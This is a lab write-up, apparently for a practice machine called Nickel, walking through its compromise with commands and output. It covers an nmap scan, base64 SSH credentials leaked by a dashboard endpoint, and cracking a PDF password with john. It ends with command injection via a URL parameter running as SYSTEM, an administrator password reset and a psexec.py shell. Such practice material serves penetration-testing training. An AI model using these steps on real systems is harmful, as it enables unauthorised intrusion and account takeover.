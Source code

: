 # **Nickel | PG Practice**

- Running our nmap scan we have;

```bash
# Nmap 7.94SVN scan initiated Fri Aug  9 07:10:17 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.220.99
Warning: 192.168.220.99 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.220.99
Host is up (0.16s latency).
Not shown: 65287 closed tcp ports (conn-refused), 231 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2024-08-09T06:14:33+00:00
|_ssl-date: 2024-08-09T06:15:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-01T20:35:07
| Not valid after:  2025-01-31T20:35:07
| MD5:   7f74:ba8a:e678:ea4e:dd76:1c9e:788f:906d
|_SHA-1: bba7:61db:e4e5:2b29:7c06:9b41:113a:cd18:0f9c:7b88
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-09T06:14:33
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  9 07:15:47 2024 -- 1 IP address (1 host up) scanned in 330.21 seconds
```



- No anonymous access on the FTP port 21

```bash
❯ ftp 192.168.220.99
Connected to 192.168.220.99.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (192.168.220.99:sec-fortress): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```



- Navigating to port 80/HTTP we don't have anything useful, however checking port 8089 we have this page;


![image](https://github.com/user-attachments/assets/11ef110e-9928-483d-bd5b-bf08863e5012)



- Clicking on each of this options take time to load and for some reasons it is not even coming up, so i decided to view source code and discovered that another IP was been called on the endpoints, instead of our present target IP



```bash
❯ curl http://192.168.220.99:8089/
<h1>DevOps Dashboard</h1>
<hr>
<form action='http://169.254.127.78:33333/list-current-deployments' method='GET'>
<input type='submit' value='List Current Deployments'>
</form>
<br>
<form action='http://169.254.127.78:33333/list-running-procs' method='GET'>
<input type='submit' value='List Running Processes'>
</form>
<br>
<form action='http://169.254.127.78:33333/list-active-nodes' method='GET'>
<input type='submit' value='List Active Nodes'>
</form>
<hr>
```



- Decided to change it to our own IP in which port 33333/HTTP is currently opened also, The two endpoints hence `/list-running-procs` has the message "**Not Implemented**".



![image](https://github.com/user-attachments/assets/9b6ec01e-2834-469b-b7fd-6ed820e2be45)



> Seems like the above message means we have to use the `POST` request instead of `GET`, you can use `burpsuite` for this or `curl` using the `-X` parameter. However i will be using `burpsuite`



- I found hardcoded SSH credentials in response after changing request to `POST`



![image](https://github.com/user-attachments/assets/9e856ca9-0c88-49f6-bc6a-de76d50d47d0)



- Took me some time to figure out the password was encrypted with `base64` so we have to decode that also



```bash
❯ echo "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" | base64 -d
NowiseSloopTheory139
```



- Then we can now login via SSH with the credentials we have at hand `ariah:NowiseSloopTheory139`



```bash
❯ ssh ariah@192.168.220.99                          
ariah@192.168.220.99's password: 
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

ariah@NICKEL C:\Users\ariah>
```



- Navigating to `C:\ftp` i found a PDF file called `Infrastructure.pdf`, Then decided to transfer the file using the `scp` utility



```bash
❯ scp ariah@192.168.220.99:C:/ftp/Infrastructure.pdf ./
ariah@192.168.220.99's password: 
Infrastructure.pdf                                                                                                                                                                100%   45KB  59.4KB/s   00:00    

❯ ls
 Infrastructure.pdf   nmap.txt
```



- However this file is password encrypted so we have to decrypt it first



![image](https://github.com/user-attachments/assets/a154bee0-58ef-4834-b6a7-94a33e0c900f)





- However this shouldn't be an hassle, we can crack this using `JtR`



```bash
❯ pdf2john Infrastructure.pdf > hash.txt
                                                                                                                                                                                                                    
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ariah4168        (Infrastructure.pdf)     
1g 0:00:02:42 DONE (2024-08-09 10:10) 0.006164g/s 61666p/s 61666c/s 61666C/s arial<3..ariadne01
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed. 
```



- Opening the PDF and checking the content we have several endpoints



![image](https://github.com/user-attachments/assets/94b577aa-f61a-4b5d-95da-9b352adb07af)



- Checking the endpoints locally, the `http://nickel/` endpoint looks interesting the most, so i checked it first and the body contains a message saying "`dev-api`"



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17
                                               
        <pre></pre>
</body></html>
```



- Adding the "`dev-api`" as a parameter to the legit URL i have this error like a normal CMD error, Meaning it executes whatever commands we add there

```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?dev-api
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>
Error while executing 'dev-api'

The term 'dev-api' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is c
orrect and try again.</pre>
</body></html>
```



- Decided to do this with the command `whoami`, and we have a response in return as the user administrator



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?whoami
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>nt authority\system
</pre>
</body></html>
```



- We can then change the administrator password and login as the administrator user with `psexec.py`



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?net%20user%20administrator%20password
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>The command completed successfully.

</pre>
</body></html>
ariah@NICKEL c:\ftp>

```



```bash
❯ psexec.py administrator@192.168.160.99
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 192.168.160.99.....
[*] Found writable share ADMIN$
[*] Uploading file YbakDYkh.exe
[*] Opening SVCManager on 192.168.160.99.....
[*] Creating service SBOk on 192.168.160.99.....
[*] Starting service SBOk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```


